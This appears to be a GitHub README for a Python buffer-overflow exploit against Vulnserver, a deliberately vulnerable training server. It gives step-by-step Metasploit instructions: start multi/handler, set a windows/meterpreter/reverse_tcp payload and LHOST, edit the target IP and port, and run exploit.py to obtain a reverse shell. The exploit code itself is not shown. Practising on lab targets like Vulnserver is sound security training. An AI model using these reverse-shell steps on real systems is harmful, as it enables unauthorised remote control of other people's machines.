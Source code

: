 # Buffer-OverFlows-Attack - VULNSERVER
this is a python code to get a reverse Shell by Buffer Overflows Attack !!!!  


to get a reverse shell 
1)use multi/handler
2)set PAYLOAD windows/meterpreter/reverse_tcp 
3)set LHOST <IP>
4)exploit 
5)Edit the Vulnserver IP and PORT according to you 
6)open up a terminal and type:
  python3 exploit.py
